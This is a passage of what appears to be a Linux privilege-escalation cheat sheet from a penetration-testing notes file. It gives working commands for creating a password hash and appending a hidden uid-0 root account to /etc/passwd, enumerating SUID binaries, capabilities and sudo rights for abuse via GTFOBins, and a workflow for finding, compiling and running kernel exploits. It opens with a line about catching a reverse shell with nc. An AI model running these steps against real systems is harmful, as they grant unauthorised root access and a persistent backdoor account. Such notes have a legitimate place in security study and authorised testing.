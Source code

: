 ```bash
```
Use `nc` to receive the shell.
### Password authentication
if we have `write` permission to `/etc/passwd`
```bash
openssl passwd password123!

$1$w6X9xROw$Y0CB8xl.M80jVxE/utQwb.
```
Then write it to `/etc/passwd`
```bash
echo 'root2:$1$w6X9xROw$Y0CB8xl.M80jVxE/utQwb.:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then switch to root by `su root2` with password:`password123!`

## Insecure System Components
### Abusing Setuid binaries and Capabilities
Get the process PID:
```bash
ps u -C [process name]
```
Inspect content of process attributes, `0` means root user.
```bash
grep Uid /proc/[PID]/status
```
`SUID` can be configured by `chmod +s [filename]`
Enumerate `SUID` files.
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -04000 -type f 2>/dev/null
```
Enumerate `Capabilities`.
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
**To abuse them -> search on [GTFOBINS](https://gtfobins.github.io/)**
### Abusing Sudo
list the allowed commands for the current user.
```bash
sudo -l
```
Search on [GTFOBINS](https://gtfobins.github.io/) -> Abuse
Check sudo version:
```
sudo -V
```
some version (e.g. 1.8.31) of sudo are vulnerable to PE.
### Exploiting Kernel Vulnerabilities
Gather information about target
```bash
cat /etc/issue
```
inspect kernel version
```bash
uname -r
```
inspect architecture
```bash
arch
```
Search exploit -> Compile -> transfer file -> Run
For some application with `SUID`, we can also search on `searchsploit` to find local escalation exploit.
e.g. `10.0.22621 N/A Build 22621` -> `CVE-2023-29360`